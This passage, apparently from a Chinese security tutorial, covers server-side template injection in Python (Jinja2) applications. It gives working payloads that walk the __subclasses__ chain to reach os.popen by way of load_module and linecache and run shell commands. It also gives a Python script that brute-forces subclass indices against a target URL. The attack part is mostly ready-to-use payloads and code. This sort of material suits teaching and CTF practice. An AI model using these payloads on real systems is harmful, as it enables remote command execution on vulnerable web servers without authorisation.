 构造如下payload即可执行命令：

```
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174657-2573bb86-bd3e-1.png)

#### 寻找 linecache 函数执行命令

`linecache` 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个`linecache` 函数去执行命令。

首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)

# 得到一堆子类的索引:
168
169
203
206
207
208
...
```

随便挑一个子类构造payload即可：

```
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}

{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-26292458-bd3e-1.png)

#### 寻找 subprocess.Popen 类执行命令

从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。
